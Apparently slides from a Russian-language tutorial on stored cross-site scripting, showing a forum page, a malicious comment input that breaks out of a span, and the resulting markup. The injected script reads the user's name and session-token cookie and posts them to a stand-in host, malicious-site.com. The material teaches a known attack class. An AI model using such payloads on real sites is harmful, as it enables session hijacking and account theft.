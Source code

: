 ## Хранимый XSS - пример

Разметка страницы:

```html
<h1>Здравствуйте, 
    <span class="username">Обычный Пользователь</span>!
</h1>
<article class="topic">
	<header class="topic-header">
		<h2>Разведение пираний в домашних условиях</h2>
	</header>
	<p class="topic-body">
		Всем привет. Я решил завести себе пираний.
Расскажите, какие плюсы, минусы, подводные камни.</p>
    <footer class="posted-by">
        От <span class="poster-name">Другой Пользователь</span>
    </footer>
</article>
```

## Хранимый XSS - пример

Странный ввод пользователя:

```
Другой пользователь</span>
<script>const username=document
.querySelector('.username')
.textContent;
const sessionCookie=document.cookie.match(/session-token=([^;$]+)/)[1];
fetch('http:/www.malicious-site.com',{method: 'post',
body:JSON.stringify({username,sessionCookie})});
</script>
```

## Хранимый XSS - пример

Разметка со странным вводом пользователя:

```html
...
От <span class="poster-name">Другой Пользователь</span>
<script>
    const username = document.querySelector(`.username`).textContent;
    const sessionCookie = document.cookie
        .match(/session-token=([^;$]+)/)[1];
    fetch(`http:/www.malicious-site.com`, {
        method: `post`,
        body: JSON.stringify({username, sessionCookie})
    });
</script>
...
```
